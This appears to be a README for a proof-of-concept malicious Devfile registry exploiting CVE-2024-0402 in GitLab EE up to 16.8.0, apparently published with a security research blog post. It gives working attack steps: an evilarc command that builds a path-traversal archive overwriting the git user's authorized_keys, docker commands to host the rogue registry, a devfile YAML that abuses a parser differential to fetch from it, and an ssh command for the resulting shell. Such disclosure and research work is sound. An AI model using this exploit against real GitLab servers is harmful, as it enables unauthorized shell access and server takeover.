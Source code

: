 # Malicious Devfile Registry

The project contains a malicious Devfile Registry usable to exploit CVE-2024-0402 in Gitlab.

## The Exploit

A `nodejs:2.2.1` stack is indexed to expose the `archive.tar` file exploiting the path-traversal issue in [registry-support library before v1.1.0](https://github.com/devfile/registry-support/commit/10b01bc136bd082f59b1ac0c91797f4065792d7b){:target="_blank"}.

*tar location*: `malicious-devfile-registry/stacks/nodejs/2.2.1/archive.tar`

It was created using the [evilarc.py](https://github.com/ptoomey3/evilarc/blob/master/evilarc.py) to overwrite the `/var/opt/gitlab/.ssh/authorized_keys` in the target Gitlab Server with the SSH keys under `ssh-keys/` folder in this repo.

```
python3 evilarc.py authorized_keys -f authzkeys.tar.gz -p var/opt/gitlab/.ssh/ -o unix
```

Once running, the registry will have the malicious *.tar* added to the fetchable stacks.
See the `index.json` listing it among the stack resources:
```
...
"links": {
          "self": "devfile-catalog/nodejs:2.2.1"
        },
        ...
        "resources": [
          "devfile.yaml",
          "archive.tar"
        ],
...
```

## Reproduction Steps

Configure a Gitlab Instance EE with version <=16.8.0. Enable Workspaces on it following the docs and the extra notes in our dedicated [!exploitable series blogpost](https://blog.doyensec.com/2025/03/13/exploitable-gitlab.html). 

Whenever ready, follow the steps below:

1. Run `docker build -t devfile-index .` in the root of this repo to build the registry container image

2. Run `docker run -d -p 5000:5000 --name local-registrypoc registry:2` to run a local container registry that will be used by the Devfile registry to store the stack. **Note:** you should edit the command to expose it according to your need. For us, it was all happening in a local environment

3. Run `docker run --network host devfile-index` to start the malicious Devfile registry built at step one. **Note:** Like before, edit the run command as you wish to make it reachable by the Gitlab instance

4. Authenticate as developer to the target Gitlab server, then edit the `.devfile.yaml` of a repository you control. The YAML must exploit the parser differential to allow fetching from the malicious registry

```yaml
schemaVersion: 2.2.0
!binary parent:
    id: nodejs
    registryUrl: http://<YOUR_MALICIOUS_REGISTRY>:<PORT>
components:
  - name: development-environment
    attributes:
      gl/inject-editor: true
    container:
      image: "registry.gitlab.com/gitlab-org/gitlab-build-images/workspaces/ubuntu-24.04:20250109224147-golang-1.23@sha256:c3d5527641bc0c6f4fbbea4bb36fe225b8e9f1df69f682c927941327312bc676"
```

5. To trigger the file-write in the Gitlab UI, just start a new Workspace in the edited repo.
After few seconds, the arbitrary file write should happen and the `ssh-keys/pockey.pub` will be added to the `authorized_keys` of the `git` user

6. You should be able to enjoy an unrestricted shell as `git` with `ssh  -i ssh-keys/pockey git@<YOUR_GITLAB_SERVER>`
